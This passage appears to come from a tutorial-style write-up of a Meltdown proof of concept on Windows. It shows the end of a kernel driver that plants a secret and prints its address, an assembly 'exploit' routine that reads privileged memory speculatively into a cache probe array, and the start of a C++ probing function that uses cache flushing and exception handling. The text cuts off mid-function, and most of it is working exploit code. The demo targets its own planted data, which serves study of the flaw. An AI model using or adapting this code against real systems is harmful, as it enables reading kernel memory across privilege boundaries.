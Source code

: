 ```c
	if (PsCreateSystemThread(&hThread, THREAD_ALL_ACCESS, 0, 0, 0, Thread_Context, 0) != STATUS_SUCCESS) {
		MmFreeNonCachedMemory(kAddr, PAGE_SIZE);
		return STATUS_FAILED_DRIVER_ENTRY;
	}
	ObReferenceObjectByHandle(hThread, THREAD_ALL_ACCESS, NULL, KernelMode, (PVOID*)&pThread, NULL);
	ZwClose(hThread);
	DebugPrint("Secret Data Location: 0x%p", kAddr);
	return STATUS_SUCCESS;
}
```

### Leaking the secret from user space

To make it easier for us to extract the data, we need to set the thread to run at Core 1, which is the same with the Driver thread. Then using SEH to handle the access violation exception, to continue the program flow.

In the exploit function, we trigger the meltdown to leak secret data into our cache.

```asm
.code
exploit proc

mov rax, qword ptr [0] ; raise an access violation exception
; Out of order execution starts.
retry:
movzx rcx, byte ptr [rcx] ; Read the data
shl rcx, 0Ch ; multiply rcx with the page size 4096
jz retry
mov rax, qword ptr [rcx+rdx] ; Push the data into cache

exploit endp
end
```

```cpp
#include <iostream>
#include <windows.h>
#include <intrin.h>
#define PAGE_SIZE 4096

extern "C" void exploit(uintptr_t addr, void* array);

uint16_t Probe(uintptr_t addr, void* arr) {
	
	uint16_t leak = 0xFFFF;
	uint64_t minTime = 0xFF;

	// Clear cache
	for (size_t i = 0; i < 256; i++) {
		_mm_clflush(&reinterpret_cast<byte*>(arr)[i * PAGE_SIZE]);
	}
	
	// Using Exception Handler
	__try {
		exploit(addr, arr);
	}
	__except (GetExceptionCode() == EXCEPTION_ACCESS_VIOLATION) {
		// An access violation is expected.
	}
	
	for (size_t i = 1; i < 256; i++) {
		uint32_t avx;
```